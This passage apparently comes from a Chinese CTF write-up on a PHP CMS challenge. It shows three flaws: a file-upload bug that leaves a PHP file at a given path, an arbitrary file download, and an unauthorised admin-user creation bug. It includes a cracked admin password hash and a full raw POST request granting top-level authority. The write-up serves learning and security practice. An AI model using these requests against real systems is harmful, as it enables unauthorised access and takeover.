 ![image-20230130145122929](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301301451007.png)

提示上传失败其实是由 `$site_url = FileService::getFileUrl($filename, 'local')` 这句引起, 因为实际上传后保存的文件名与 filename 并不相同, 所以会报错, 但其实 php 已经上传成功了

```
http://1bfe4913-52da-4571-aa59-3bca4bf51d44.node4.buuoj.cn:81/static/upload/1234567812345678/123456781234.php
```

![image-20230130145248129](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301301452184.png)

这个文件上传的点有好几个, 利用方式都差不多

第三种是任意文件下载, 这个不算 getshell, 但是也能猜出来 flag 的位置

/application/manage/controller/Backup.php

![image-20230130150209812](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301301502923.png)

需要登录后台, 有两种方法

一种是直接从 sql 里面拿 admin 密码

```
admin 81c47be5dc6110d5087dd4af8dc56552
```

md5 解密后是 `admincccbbb123`

另一种是后台未授权添加用户

/application/admin/controller/Index.php

![image-20230130150439397](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301301504510.png)

限制只能更改当前用户的资料, 但其实把 request id 和 session id 置空就行

跟进 \_form 方法

![image-20230130150626972](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301301506084.png)

post 时会先调用回调函数 `_form_filter`, 然后再执行 save 操作

回调在同级的 User.php 里面

![image-20230130150714665](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202301301507772.png)

 authorize 参数代表用户权限大小, 根据 sql 文件得知最大值为 3

```
POST /html/index.php?s=admin/Index/info HTTP/1.1
Host: 1bfe4913-52da-4571-aa59-3bca4bf51d44.node4.buuoj.cn:81
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://b936f4d6-3fd2-4344-92f9-88475390d062.node4.buuoj.cn:81
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36 Edg/109.0.1518.70
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://b936f4d6-3fd2-4344-92f9-88475390d062.node4.buuoj.cn:81/admin/Index/pass
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 66

username=admin123&phone=&mail=&password=admin123&desc=&authorize=3
```
